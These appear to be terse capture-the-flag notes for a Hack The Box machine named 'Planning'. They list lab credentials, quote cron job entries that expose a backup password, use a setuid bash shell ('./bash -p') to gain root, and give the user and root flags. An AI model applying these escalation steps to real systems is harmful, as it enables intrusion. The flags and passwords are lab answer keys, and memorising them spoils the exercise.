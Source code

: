 # Planning - HTB - Easy

## Available info

- we can use an admin account
- creds: admin / 0D5oT70Fq13EvB5r

## Admin password from .env

GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo

## User pwn

```bash
enzo@planning:~$ cat ~/user.txt
81eb5a6c45feffdc594bbb62737e807f
```

## System pwn

```bash
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

> Port forward and all that shit:

```bash
enzo@planning:/tmp$ ./bash -p
bash-5.2# whoami
root
bash-5.2# cat ~/root.txt
cat: /home/enzo/root.txt: No such file or directory
bash-5.2# cat /root/root.txt
7369b309719c6e92eff634efe0431433
```
